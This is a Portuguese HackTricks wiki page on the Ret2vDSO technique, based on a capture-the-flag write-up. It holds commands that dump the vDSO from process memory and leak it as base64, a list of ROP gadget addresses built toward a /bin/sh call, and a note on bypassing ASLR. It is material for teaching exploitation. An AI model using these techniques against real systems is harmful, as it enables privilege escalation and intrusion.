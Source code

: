 # Ret2vDSO

{% hint style="success" %}
Aprenda e pratique Hacking na AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Informações Básicas

Pode haver **gadgets na região vDSO**, que é usada para mudar do modo usuário para o modo kernel. Nestes tipos de desafios, geralmente é fornecida uma imagem do kernel para fazer dump da região vDSO.

Seguindo o exemplo de [https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/maze-of-mist/](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/maze-of-mist/), é possível ver como foi possível fazer dump da seção vdso e movê-la para o host com:
```bash
# Find addresses
cat /proc/76/maps
08048000-08049000 r--p 00000000 00:02 317                                /target
08049000-0804a000 r-xp 00001000 00:02 317                                /target
0804a000-0804b000 rw-p 00002000 00:02 317                                /target
f7ff8000-f7ffc000 r--p 00000000 00:00 0                                  [vvar]
f7ffc000-f7ffe000 r-xp 00000000 00:00 0                                  [vdso]
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]

# Dump it
dd if=/proc/76/mem of=vdso bs=1 skip=$((0xf7ffc000)) count=$((0x2000))
8192+0 records in
8192+0 records out
8192 bytes (8.0KB) copied, 0.901154 seconds, 8.9KB/s

# Compress and leak it
gzip vdso
base64 vdso.gz

# Decompress and check of gadgets
echo '<base64-payload>' | base64 -d | gzip -d - > vdso
file vdso
ROPgadget --binary vdso | grep 'int 0x80'
```
Gadgets ROP encontrados:
```python
vdso_addr = 0xf7ffc000

int_0x80_xor_eax_eax_ret_addr = 0x8049010
bin_sh_addr = 0x804a800

# 0x0000057a : pop edx ; pop ecx ; ret
pop_edx_pop_ecx_ret_addr = vdso_addr + 0x57a

# 0x00000cca : mov dword ptr [edx], ecx ; add esp, 0x34 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
mov_dword_ptr_edx_ecx_ret_addr = vdso_addr + 0xcca

# 0x00000ccb : or al, byte ptr [ebx + 0x5e5b34c4] ; pop edi ; pop ebp ; ret
or_al_byte_ptr_ebx_pop_edi_pop_ebp_ret_addr = vdso_addr + 0xccb

# 0x0000015cd : pop ebx ; pop esi ; pop ebp ; ret
pop_ebx_pop_esi_pop_ebp_ret = vdso_addr + 0x15cd
```
{% hint style="danger" %}
Note, portanto, como pode ser possível **burlar o ASLR abusando do vdso** se o kernel for compilado com CONFIG\_COMPAT\_VDSO, pois o endereço vdso não será randomizado: [https://vigilance.fr/vulnerability/Linux-kernel-bypassing-ASLR-via-VDSO-11639](https://vigilance.fr/vulnerability/Linux-kernel-bypassing-ASLR-via-VDSO-11639)
{% endhint %}

### ARM64

Após despejar e verificar a seção vdso de um binário no kali 2023.2 arm64, não consegui encontrar lá nenhum gadget interessante (nenhuma maneira de controlar registradores a partir de valores na pilha ou controlar x30 para um ret) **exceto uma maneira de chamar um SROP**. Confira mais informações no exemplo da página:

{% content-ref url="srop-sigreturn-oriented-programming/srop-arm64.md" %}
[srop-arm64.md](srop-sigreturn-oriented-programming/srop-arm64.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprenda e pratique Hacking na AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
